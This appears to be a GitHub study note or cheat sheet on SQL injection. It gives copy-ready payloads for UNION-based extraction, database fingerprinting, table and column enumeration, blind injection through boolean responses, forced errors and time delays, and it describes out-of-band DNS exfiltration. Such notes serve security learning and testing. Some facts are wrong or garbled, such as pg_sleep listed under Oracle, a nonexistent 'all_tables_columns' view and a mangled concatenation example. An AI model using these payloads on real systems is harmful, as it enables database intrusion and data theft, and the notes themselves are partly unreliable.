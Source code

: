 # SQL Injection

![sqli](https://github.com/DK9510/Img/blob/main/sql-inection.png)

## what is  SQL injection
in this vulnearabilty the malicious sql statement will be inject by the attacker to compromise the database or server

## where to find
* see the parameter were the client send  the request in form GET POST and we use `` ' , \ ) " "'`` etc to manipulate user input and break query.   
* some site use filters to validate client input so we use URL encoded payloads 

## union Query 
for successfully execution union query  we must meet the no. of columns returning 

## find number of columns vulnerable to SQL I
1. use order by 1 (integer ) and increment until error goes on
this will give us the number of columns that are returning
2. or another  method is UNION Select NULL,NULL --  "if number of null DOESN'T match then DB gives error"
#### note for Oracle Database 
always use **From Dual --** in select query because it is the builtin table in oracle.

## find the column which gives us the string value in return 
```bash
Query= 'UNION SELECT NULL,"A"+--+'
```
OR
```bash
query = ' UNION SELECT "A",NULL --+'
```
(if returns our string value in any columns that is data retrival point we can say)

## find DataBase Type and Version
|Database | Query |
|---|---|
|Microsoft | 'Select @@version'|
|MySQL |'Select @@version'|
|Oracle | 'Select \* from v\$Version'|
|PostgreSQL| 'Select version()'|

## listing content of DB 
#### Listing tables 
```bash
Query= 'information_schema.tables' 
```
(list out the table names in the database)
#### listing columns
```bash
Query= ' Select * from information_schema.columns Where table_name="table name we know" '
```
***NOTE:  always use + instead of (space)***

### For Oracle DataBase

**For tables**
```bash
Query= 'Select * from all_tables '
```
**For columns** 
```bash
Query= 'Select * from all_tables_columns where table_name="table name"'
```
## String Concation 
***used for concatenation multiple string in the single string***

|***Database* **| ***Method for concate***|
|---|---|
|**Oracle **|** 'str1'  \| \|'str2'** |
|**Microsoft** |** 'str1'+str2**|
|**PostgreSQL**|**'stind r1' \|\|'str2'**|
|**MySql** | **'str1'(space)'str2'  OR CONCATE('str1','str2')**|

## Sub-string or retrieve part of the string
|DataBase| Query|
|---|---|
|Oracle |SUBSTR('the payload to return string or string', index_of_string, number_of_charector_to retrive)|
|Microsoft|SUBSTRING('STRING ', Index, number of character)|
|PostgreSQL| SUBSTRING('string', index, character)|
|MySQL| SUBSTRING('string', index, character)|

## Comments in SQL
|DataBase|Comment|
|---|---|
|Oracle|'--'|
|Microsoft|'--'and /\*\*/|
|PostgreSql|'--' and /\*\*/ |
|MySQL| \# , --(white space), /\*\*/ |

# Blind sql injection vulnerability

### how to exploit 
1. change logic of the Query to trigger detectable difference
2. trigger time delay
3. trigger out of band network interaction

### using conditional Response
```bash
Query = ' xyz AND "1"="1' 
```
**if get response than xyz if true other wise it DIDN'T get response from server**    or
```bash
Query = ' xyz AND "1"="2'
```

### inducing conditional Response by Triggering SQL Error
```bash
Query = 'xyz AND ( Select CASE WHEN (1=2) Then 1/0 Else "a" END)="a'
```
**if condition is true server gives us the error if false 
coudnt get error**

##### for Oracle Data base 
```bash
Query= 'xyz || (select case when(1=1) Then To_char(1/0) Else '' END From DUAL \|\| '
```

### exploit BY Generating Delay 
```bash
query = '; if (condition true) waitfor Delay '0:0:10:'+--+'
```
gives 10 second delay in response if condition true else DIDN'T delay in response

##### for oracle DB
```bash
Query = '|| pg_sleep(delay in seconds)+--+'
```

### exploit using OUt of band 
in this append data in the form of subdomain in our domain and make a DNS lookup
that will reflect in our network traffic and that way we can extract data.
we also use burp collaberator

# 2nd Order SQL Injection
#### it happens when our input stored in the application and then later handling different HTTP request the app retrieve stored data and our sql query is executed and we successfully u injected our payload in the server and also executed our SQL Query.
